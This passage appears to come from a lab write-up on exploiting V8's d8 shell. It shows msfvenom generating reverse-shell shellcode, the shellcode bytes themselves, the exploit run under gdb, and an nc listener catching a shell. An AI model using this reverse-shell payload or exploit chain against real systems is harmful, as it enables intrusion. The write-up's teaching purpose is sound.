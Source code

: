     Thread 1 "d8" received signal SIGTRAP, Trace/breakpoint trap.
    0x00003937f5d78001 in ?? ()



The RIP is at 0x00003937f5d78001, and the leaked rwx page address is
0x3937f5d78000, so that's a hit!

#### Weaponize Shellcode

Next I need to put real shellcode in. I'll start with a payload that
will get a reverse shell from my Ubuntu dev VM back to my Kali VM on my
local nextwork. `msfvenom` has the payload format `dword`, which I can
use to get the shellcode in a format I can drop into `exploit.js`:



    root@kali# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.1.1.140 LPORT=443 -f dword
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 76 bytes
    Final size of dword file: 232 bytes
    0x9958296a, 0x6a5f026a, 0x050f5e01, 0xb9489748, 0xbb010002, 0x8c01010a, 0xe6894851, 0x6a5a106a, 
    0x050f582a, 0x485e036a, 0x216aceff, 0x75050f58, 0x583b6af6, 0x2fbb4899, 0x2f6e6962, 0x53006873, 
    0x52e78948, 0xe6894857, 0x0000050f



Start `nc` on kali and update `exploit.js`. Now I'll run it in `d8`:



    gef➤  run --allow-natives-syntax exploit.js --shell
    Starting program: /home/df/v8/out.gn/x64.release/d8 --allow-natives-syntax exploit.js --shell
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
    [New Thread 0x7f05e643e700 (LWP 67861)]
    [*] Creating WASM RWX page
    [+] Found pointer to wasm_instance: 0x82112a5
    [+] Found address of rwx page: 0x8ac78c42000
    [*] Copying shellcode tp rwx page
    [*] Executing shellcode...
    [Thread 0x7f05e643e700 (LWP 67861) exited]
    process 67857 is executing new program: /usr/bin/dash



It hangs here, but at `nc`, there's a shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.1.1.163.
    Ncat: Connection from 10.1.1.163:40672.
    id
    uid=1000(df) gid=1000(df) groups=1000(df),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),998(vboxsf)
    hostname
    buntu
